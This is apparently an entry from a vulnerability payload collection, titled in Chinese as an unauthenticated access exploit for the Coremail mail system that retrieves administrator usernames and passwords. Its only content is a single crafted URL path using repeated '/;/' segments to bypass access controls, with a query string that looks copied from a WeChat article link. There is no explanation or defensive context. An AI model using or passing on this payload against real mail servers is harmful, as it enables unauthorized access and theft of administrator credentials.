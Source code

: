 # Coremail邮件系统未授权访问获取管理员账密

## Coremail邮件系统未授权访问获取管理员账密
```
/coremail/common/assets/;/;/;/;/;/;/s?__biz=MzI3MTk4NTcyNw==&mid=2247485877&idx=1&sn=7e5f77db320ccf9013c0b7aa72626e68&chksm=eb3834e5dc4fbdf3a9529734de7e6958e1b7efabecd1c1b340c53c80299ff5c688bf6adaed61&scene=2
```

